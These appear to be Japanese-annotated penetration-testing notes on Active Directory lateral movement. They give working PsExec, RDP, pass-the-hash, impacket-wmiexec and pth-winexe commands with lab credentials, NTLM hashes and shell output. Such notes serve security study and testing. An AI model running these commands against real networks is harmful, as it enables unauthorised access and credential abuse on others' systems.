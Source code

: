 * Ports: 445/TCP(SMB)
* Required Group Memberships：Administrators

![image-20230411222227797](img/ActiveDirectory_lateralmove/image-20230411222227797.png)

```
./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```

※別ウィンドウではなく同一ウィンドウでcmd実行される



### RDP

```
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
```

```
rdesktop -g 90% -d EXAM -u ted -p avatar123 192.168.131.171
```



### Pass the Hash

NTML認証はipアドレス指定の場合に利用される

#### wmiexec

```bash
kali@kali:~$ /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>hostname
FILES04

C:\>whoami
files04\administrator
```

#### pth-winexe

```bash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.151.1 cmd
```

#### evil-winrm


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname